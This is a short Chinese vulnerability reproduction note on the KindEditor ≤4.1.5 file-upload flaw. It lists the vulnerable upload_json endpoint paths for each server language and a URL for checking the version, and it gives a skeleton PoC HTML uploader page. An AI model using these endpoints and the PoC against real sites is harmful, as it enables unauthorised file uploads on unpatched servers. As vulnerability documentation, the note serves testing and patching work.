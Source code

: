# Kindeditor <=4.1.5 上传漏洞

### 一、漏洞简介

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.5编辑器中

### 二、漏洞影响

Kindeditor <=4.1.5

### 三、复现过程

json文件地址


```bash
/asp/upload_json.asp

/asp.net/upload_json.ashx

/jsp/upload_json.jsp

/php/upload_json.php
```

上传路径


```bash
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file

kindeditor/php/upload_json.php?dir=file
```

查看版本信息


```bash
http://url/kindeditor//kindeditor.js
```

![](images/15891200317771.jpg)


构造poc


```html
<html><head>
<title>Uploader</title>
<script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
<script></script></head><body>
<div class="upload">
<input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
<input type="button" id="uploadButton" value="Upload" />
</div>
</body>
</html>
```
